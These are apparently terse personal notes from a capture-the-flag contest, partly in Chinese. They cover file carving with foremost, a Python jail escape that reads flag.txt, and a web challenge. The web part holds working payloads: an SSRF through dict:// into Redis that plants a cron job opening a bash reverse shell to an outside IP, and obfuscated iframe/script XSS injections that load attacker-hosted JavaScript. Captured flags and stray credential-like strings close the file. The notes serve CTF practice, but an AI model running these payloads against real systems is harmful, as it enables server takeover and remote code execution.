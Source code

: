 # pdf

foremost -t doc,jpg,pdf,xls -i 2333.pdf

# pwn jail

```
print(getattr(os, "listdir")())
['pwn50.py', '.bash_profile', '.viminfo', '.bashrc', '.bash_history', 'flag.txt', 'run.sh', '.bash_logout']

```

print("%s"%getattr(file,"readlines")())
file = open(getattr(os, "listdir")()[5])

# web300
http://www.611eternity.com/DNSRebinding%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0/
https://ricterz.me/posts/Use%20DNS%20Rebinding%20to%20Bypass%20IP%20Restriction
以上错误思路，增长见识()
http://4o4notfound.org/index.php/archives/33/
https://blog.chaitin.cn/gopher-attack-surfaces/

Protocols	tftp, ftp, telnet, dict, http, file
dict利用：dict协议有一个功能：dict://serverip:port/name:data 向服务器的端口请求 name data，并在末尾自动补上rn(CRLF)。也就是如果我们发出

dict://0xAC120002:6379/flushall
dict://0xAC120002:6379/set:0:"\x0a\x0a*/1\x20*\x20*\x20*\x20*\x20/bin/bash\x20-i\x20>\x26\x20/dev/tcp/47.90.120.165/8990\x200>\x261\x0a\x0a\x0a"
dict://0xAC120002:6379/config:set:dir:/var/spool/cron
dict://0xAC120002:6379/config:set:dbfilename:root
dict://0xAC120002:6379/save

SYC{7aef12345e2aa21ae8f97ca8b5d9e581}

# caidao
http://118.89.225.190/shellbox.php?shell=<iframe%20src="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovLzQ3LjkwLjEyMC4xNjU6NTAwMC94P3U9MSZhPTE+PC9zY3JpcHQ+">
https://mothereff.in/html-entities

![](https://django.c1tas.com/pic/orign/24)

http://118.89.225.190/shellbox.php?shell=%3Ciframe%20src=%22http://47.90.120.165:8999/123%22%3E

http://118.89.225.190/shellbox.php?shell=%3CIFRAME%20SRC=%22&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x77;&#x72;&#x69;&#x74;&#x65;&#x28;&#x27;&#x3C;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x20;&#x73;&#x72;&#x63;&#x3D;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x34;&#x37;&#x2E;&#x39;&#x30;&#x2E;&#x31;&#x32;&#x30;&#x2E;&#x31;&#x36;&#x35;&#x3A;&#x39;&#x39;&#x39;&#x39;&#x2F;&#x32;&#x2E;&#x6A;&#x73;&#x3E;&#x3C;&#x2F;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;&#x27;&#x29;&#xA;"></IFRAME>

```
GET /?code=PCFET0NUWVBFIGh0bWwgUFVCTElDICItLy9XM0MvL0RURCBYSFRNTCAxLjAgVHJhbnNpdGlvbmFsLy9FTiIgImh0dHA6Ly93d3cudzMub3JnL1RSL3hodG1sMS9EVEQveGh0bWwxLXRyYW5zaXRpb25hbC5kdGQiPg0KPGh0bWwgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzE5OTkveGh0bWwiIHhtbDpsYW5nPSJlbiI%2BDQo8aGVhZD4NCiAgICA8bWV0YSBodHRwLWVxdWl2PSJDb250ZW50LVR5cGUiIGNvbnRlbnQ9InRleHQvaHRtbDtjaGFyc2V0PVVURi04Ij4NCiAgICA8c2NyaXB0IHNyYz0iLi9qcXVlcnkubWluLmpzIj48L3NjcmlwdD4NCiAgICA8IS0tIOi%2FmemHjOaYr%2BS4jeS8muaciea8j%2Ba0nueahCAtLT4NCjwvaGVhZD4NCjxib2R5Pg0KPCEtLSBTWUN7MV93ME50X0QwXzFUXzRnQWlufSAtLT48SUZSQU1FIFNSQz0iaHR0cDovLzQ3LjkwLjEyMC4xNjU6ODk5MCI%2BPC9JRlJBTUU%2BPC9ib2R5Pg0KPC9odG1sPg0K HTTP/1.1
```

```
'<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">\r\n<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en">\r\n<head>\r\n    <meta http-equiv="Content-Type" content="text/html;charset=UTF-8">\r\n    <script src="./jquery.min.js"></script>\r\n    <!-- 这里是不会有漏洞的 -->\r\n</head>\r\n<body>\r\n<!-- SYC{1_w0Nt_D0_1T_4gAin} --><IFRAME SRC="http://47.90.120.165:8990"></IFRAME></body>\r\n</html>\r\n'
```

#

Q1T0NGW3H
AB@15!74587~CAIBUDAN
